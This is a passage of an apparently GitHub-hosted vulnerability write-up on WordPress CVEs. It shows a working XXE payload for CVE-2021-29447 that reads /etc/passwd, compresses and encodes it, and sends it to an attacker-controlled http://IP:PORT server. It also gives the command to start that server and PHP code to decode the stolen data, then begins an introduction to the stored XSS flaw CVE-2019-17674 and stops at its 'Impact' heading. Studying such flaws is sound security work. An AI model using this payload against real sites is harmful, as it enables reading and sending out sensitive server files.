 ![Untitled](images/Untitled%203.png)

```xml
<!ENTITY % file SYSTEM "php://filter/zlib.deflate/read=convert.base64-encode/resource=/etc/passwd">

<!ENTITY % init "<!ENTITY &#x25; trick SYSTEM 'http://IP:PORT/?p=%file;'>" >
```

We use these encodings in order to get the non-executed & compressed file view, as well as no data, that should be missed during any type of execution. We are encoding using the Zlib function and base64 encoding.

Start your attacking server that will serve the evil.dtd file.

```bash
php -S 0.0.0.0 <PORT>
```

![Untitled](images/Untitled%204.png)

Now to decode the intercepted message, we have to use the same functions in order to get the original message. 

![Untitled](images/Untitled%205.png)

```php
<?php echo zlib_decode(base64_decode(‘base64InterceptedText’)); ?>
```

![Untitled](images/Untitled%206.png)

Successfully accessed the internal file of the server.

Here, is the video for the vulnarability

[![Watch the video](images/CVE1.jpg)](Videos/CVE-2021-29447.mp4)


# [CVE-2019-17674](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-17674)

## Introduction

This vulnerability was discovered by an individual on HackerOne. He found the stored/persistent XSS vulnerability in the customizer navigation panel of the social media link tab. Only authenticated users with the access to customizer can exploit this vulnerability.

- What is Stored/Persistent XSS?
    
    XSS is **an attack technique that injects malicious code into vulnerable web applications**. Unlike other attacks, this technique does not target the web server itself, but the user's browser. Stored XSS is a type of XSS that stores malicious code on the application server.
    

## Impact
